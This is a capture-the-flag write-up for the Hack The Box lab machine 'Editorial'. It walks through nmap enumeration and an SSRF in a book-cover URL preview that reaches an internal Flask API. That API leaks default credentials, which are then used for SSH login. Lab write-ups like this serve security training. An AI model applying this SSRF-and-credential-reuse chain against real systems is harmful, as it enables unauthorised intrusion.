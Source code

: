 
### 1- Enumeration
 
```bash
sudo nmap -sV -sC -v 10.10.11.20 -oN nmap

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
|_  256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editorial.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


```bash
sudo nano etc/hosts

editorial.htb 10.10.11.20
```

![[Pasted image 20240617035832.png]]
Users Enumeration 
```
John Kat.
Stephen K.
José Sara.
```


About us Email
![[Pasted image 20240617042313.png]]

```
submissions@tiempoarriba.htb
```

Adding `tiempoarriba.htb` to `/etc/hosts` -->
http://tiempoarriba.htb/ redirect to http://editorial.htb/ 


#### Website Functions

![[Pasted image 20240617042930.png]]

uploads location : http://editorial.htb/static/uploads/

#### SSRF at book cover URL Preview

![[Pasted image 20240617050812.png]]


![[Pasted image 20240617051238.png]]

#### From the structure of the Website we can guess that it runs flask which by default running on port 5000

![[Pasted image 20240617203715.png]]

![[Pasted image 20240617203807.png]]

Found that there is api endpoints in response 

```js
/api/latest/metadata/messages/promos
/api/latest/metadata/messages/coupons
/api/latest/metadata/messages/authors
/api/latest/metadata/messages/how_to_use_platform
/api/latest/metadata/changelog
/api/latest/metadata
```

new_authors api endpoint 
```
http://127.0.0.1:5000/api/latest/metadata/messages/authors
```
![[Pasted image 20240617203519.png]]

![[Pasted image 20240617203339.png]]


retrieve messages sent to new authors which contains default username and password
```json
{"template_mail_message":"Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."}
```

```
username : dev && password : dev080217_devAPI!@
```

now we can use this creds to connect via ssh port 22
```bash
ssh dev@editorial.htb 

password: dev080217_devAPI!@
```

Now we got initial access &  user flag
![[Pasted image 20240617204652.png]]